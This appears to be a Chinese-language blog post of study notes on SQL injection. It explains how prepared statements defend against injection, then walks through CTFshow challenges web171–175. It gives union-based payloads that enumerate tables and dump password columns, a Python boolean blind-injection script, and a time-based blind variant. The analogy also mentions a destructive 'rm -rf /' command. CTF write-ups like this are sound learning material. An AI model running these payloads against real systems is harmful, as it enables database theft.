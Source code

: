 ```yaml
---
title: 浅谈 SQL 注入
date: 2025-03-29 09:00:00
tags: [CTF, Web, 渗透]
categories: 学习
---
```


一边瞎扯一边学习，也是很爽的。
<!--more-->

## 前言

我很早就接触过 MySQL，高考完暑假的时候就用 PHP 和 MySQL 搞了个简单的成绩查询系统，当时还不知道有 SQL 注入这个东西，回想起来要是漏给一个会 SQL 注入的人，估计就被打烂了。

但是为什么一直没怎么学 SQL 注入呢？—— 因为后来听说参数化查询基本可以完全防住 SQL 注入了，就感觉学这个没什么意义了。

现在转念一想，咱又不是搞前沿的，用这个打打老系统绰绰有余（关键是面试官真的会问），那就学一下咯。

小 Review: 发现之前写的 BUUOJ 有几题 SQL 注入的题目，挖了坑没补过程，准备学完补上。

## 参数化查询是如何防御 SQL 注入的

可以看下知乎的[这个回答](https://www.zhihu.com/question/52869762)，大概意思如下：

有一个 SQL 语句：

```sql
select count(1) from students where name='张三'
```

注入语句：

```sql
select count(1) from students where name='张三' or 1=1
```

那么 `name` 参数的值 `张三' or 1=1` 就会被当成 SQL 语句的一部分，整个一块编译，导致 SQL 注入。

这时候预编译来了，以下是一个 Java 的实现：

```java
import java.sql.PreparedStatement;

String sql = "select * from user where username=? and passwd=?";
ps = conn.PreparedStatement(sql);
ps.setString(1, "admin");
ps.setString(2, "123456");
resultSet = ps.executeQuery();
```

可以看到，`conn.PreparedStatement()` 函数直接把 SQL 语句编译好了，后面只是传参 + 执行。
可能读者咋一眼看上去会觉得没什么区别，我拿大家都熟悉的场景来举个例子：
相信大家都是接触过 C 语言的，没有预编译的 SQL 就相当于你可以操作 `*.c` 文件给编译器编译并执行，可以把 `int a=?;` 填成 `int a=1; system("rm -rf /");`，而预编译的 SQL 就相当于编译了一段 `int a=0;scanf("%d", &a);`，现在程序只负责接收参数并执行，根本无法编译恶意代码。

## CTFshow 刷题记录

### web171 - web175

给 Xenny 充点钱，在 [NSS](https://www.nssctf.cn/problem/sheet/10708) 上吸收了一下知识，读者如果像我一样也是个小白也可以去支持一下，十来块钱不算贵。
以 CTFshow 的 web171 为例，查询语句题目直接给出（不会有人不知道 PHP 能用 `.` 拼接字符串吧）

```php
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

那我们直接 `'--+` 闭合即可。（`--` 是注释符号，`+` 是干嘛的我也不清楚，加就是了，`#` 也是注释符号，可以根据情况来），引号闭合的意义就是补全前面代码，使得前面部分加上这个引号是一个正常的语句，注释的意义是无视后面的代码，那么这时中间就可以写我们的 SQL 语句了。

```sql
' order by 3--+
```

换成 4 就报错，说明列数为 3
那么采用联注，语句如下：

```sql
' union select database(),version(),user()--+
```

结果分别为 `ctfshow_web`, `10.3.18-MariaDB`, `root@localhost`
查表：

```sql
' union select 1,2,table_name from information_schema.tables where table_schema='ctfshow_web'--+
```

结果为 `ctfshow_user`
再查列：

```sql
' union select 1,2,column_name from information_schema.columns where table_name='ctfshow_user'--+
```

结果为分别为 `id`, `username`, `password`
最后直接套出整个表，当然根据题意加个 `where username = 'flag'` 也行：

```sql
' union select id,username,password from ctfshow_user--+
```

web172 也是类似，虽然加了个如下拦截，但是我们不出现 `username` 字段即可

```php
//检查结果是否有flag
    if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```

还是仿照上面一套打下来，最终 payload 如下：

```sql
' union select id,password from ctfshow_user2 where username='flag'--+
```

web173 的拦截比较有意思，直接正则匹配结果了，考虑能不能用 `substr()` 之类的函数截取字符串

```php
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

发现他的 flag 头是 `ctfshow{`，根本不用管，绷，payload 如下：

```sql
' union select id,1,password from ctfshow_user3--+
```

web174 有点刁难了，把数字也拦截了

```php
//检查结果是否有flag
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

考虑布尔盲注，payload 如下：

```sql
1' and 1=1--+
```

发现此时有返回结果而改为 `1=0` 时返回的结果为空，说明布尔盲注可行，脚本如下：

```python
import requests as r
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


value = ''
i = 1

while True:
    low, high = 0, 127
    char_ascii = 0
    
    while low <= high:
        mid = (low + high) // 2
        # payload = f"1' and 1=if(ascii(substr((database()), {i}, 1)) > {mid}, 1, 0)--+"
        payload = f"1' and 1=if(ascii(substr((select group_concat(password) from ctfshow_user4 where username='flag'), {i}, 1)) > {mid}, 1, 0)--+"
        payload = payload.replace(' ', '%20')
        payload = payload.replace("'", "%27")
        # print(payload)
        result = r.get(f'https://777fe6df-5d10-4f76-81f6-91f860d5de1e.challenge.ctf.show/api/v4.php?id={payload}&Page=1&limit=10', verify=False)

        oracle = len(result.json()['data']) > 0
        
        if oracle:  # 条件成立，ASCII值大于mid
            low = mid + 1
        else:
            high = mid - 1
    
    if high < 0:  # 字符位置不存在时退出
        break
    
    char_ascii = high + 1
    if char_ascii == 0:
        break
    
    value += chr(char_ascii)
    print(f"Current: {value}")
    i += 1

print(f"Final value: {value}")
```

注意到 python 用 https 时需要加上 `verify=False`，否则会报错，还要加上 `urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)` 来禁止警告。
Python 的 `requests` 还有个坑就是会把 params 猛猛地 urlencode 一遍，导致最终的 url 面目全非，从而导致 payload 不生效。

web175 拦截更离谱了，直接啥都拦了

```php
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

我倒是想知道生产环境会不会有这么拦的

那从解题的角度来说那只能时间盲注了，payload 如下：

```sql
1' and 1=if(ascii(substr((select group_concat(password) from ctfshow_user5 where username='flag'), {i}, 1)) > {mid}, sleep(1), 0)--+
```

oracle 改为 `result.elapsed.total_seconds() > 1` 即可。

// To be continued...

## 参考

<https://www.zhihu.com/question/52869762>
<https://www.freebuf.com/articles/web/339118.html>
